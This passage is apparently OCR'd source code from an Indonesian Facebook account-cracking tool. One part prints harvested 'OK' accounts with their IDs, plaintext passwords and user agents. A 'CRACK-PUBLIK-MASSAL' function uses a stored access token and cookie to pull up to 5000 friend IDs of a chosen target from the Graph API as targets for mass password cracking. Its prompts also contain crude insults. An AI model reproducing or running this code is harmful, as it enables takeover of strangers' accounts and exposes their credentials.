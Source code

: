                  if len(vin)==0: 
                         print(' [+] Anda Tidak Mempunyai File OK ') 
                         time.sleep(4) 
                         exit() 
                 else: 
                         cih = 0 
                         lol = {} 
                         for isi in vin: 
                                 try:hem = open('OK/'+isi,'r').readlines() 
                                 except:continue 
                                 cih+=1 
                                 if cih<80: 
                                         nom = '0'+str(cih) 
                                         lol.update({str(cih):str(isi)}) 
                                         lol.update({nom:str(isi)}) 
                                         print('['+nom+'] '+isi+' [ '+str(len(hem))+' Account ]'+x) 
                                 else: 
                                         lol.update({str(cih):str(isi)}) 
                                         print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]'+x) 
                         geeh = input('\n [+] Pilih : ') 
                         try:geh = lol[geeh] 
                         except KeyError: 
                                 print(' [+] Pilih Yang Bener Kontol ') 
                                 exit() 
                         try:lin = open('OK/'+geh,'r').read().splitlines() 
                         except: 
                                 print(' [+] File Tidak Di Temukan ') 
                                 time.sleep(4) 
                                 exit() 
                         nocp=0 
                         for cpku in range(len(lin)): 
                                 cpkuni=lin[nocp].split('|') 
                                 cpkuh=f'# ID : {cpkuni[0]} PASSWORD : {cpkuni[1]}' 
                                 sol().print(mark(cpkuh,style="green")) 
                                 print(f'{hh}User-Agent : {x}{cpkuni[2]}') 
                                 nocp +=1 
                         input('[ Klik Enter ]') 
                         exit() 
         else: 
                 print(' [+] Pilih Yang Bener Kontol ') 
                 exit() 
  
 #-------------------[ CRACK-PUBLIK-MASSAL]----------------# 
 def brayen_dump(): 
         try: 
                 token = open('.token.txt','r').read() 
                 kukis = open('.cok.txt','r').read() 
         except IOError: 
                 exit() 
         cetak(panel('\t            [bold white]Ketik [bold green]Me[/] Jika Ingin Crack Pertemanan Sendiri',width=90,style='bold white')) 
         pil = input(f' [+] Masukan ID Target : ') 
         try: 
                 koH = requests.get('https://graph.facebook.com/v1.0/'+pil+'?fields=friends.limit(5000)&access_token='+tokenku[0],cookies={'cookie': kukis}).json() 
                 for pi in koH['friends']['data']: 
                         try:id.append(pi['id']+'|'+pi['name']) 
                         except:continue 
                 print(f' [+] Total ID Yang Terkumpul : {h}'+str(len(id))) 
                 setting() 
         except requests.exceptions.ConnectionError: 
                 print(' [+] Internet Lu Gak Ada Anjing') 
                 exit() 
         except (KeyError,IOError): 